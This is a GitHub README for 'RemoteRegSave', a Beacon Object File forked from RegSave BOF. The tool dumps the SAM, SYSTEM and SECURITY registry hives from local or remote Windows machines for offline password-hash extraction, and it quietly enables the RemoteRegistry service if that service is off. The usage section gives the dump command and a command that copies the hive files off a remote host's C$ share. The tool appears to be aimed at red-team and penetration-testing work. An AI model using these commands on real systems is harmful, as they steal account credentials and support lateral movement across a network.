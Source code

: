 # BOF - RemoteRegSave

A fork of [RegSave BOF](https://github.com/EncodeGroup/BOF-RegSave). Dump SAM/SYSTEM/SECURITY registry key hives on local or remote computer using `RegConnectRegistryA` and `RegOpenKeyExA` for offline parsing and hash extraction.



### Usage

Dump registry key hives on local computer (admin elevation required)

```
RegSave --path [file path <optional>]
```

Dump registry key hives on remote computer (automatically enable service RemoteRegistry if disabled)

```
RegSave --pc remotePC --path [file path <optional>]
shell copy \\remoteSrv\C$\Windows\temp\HG029* .
```



### Compile

```linux
cd SOURCE
make
```



### References

+ [RegSave BOF](https://github.com/EncodeGroup/BOF-RegSave)
+ [SharpSecDump](https://github.com/G0ldenGunSec/SharpSecDump)
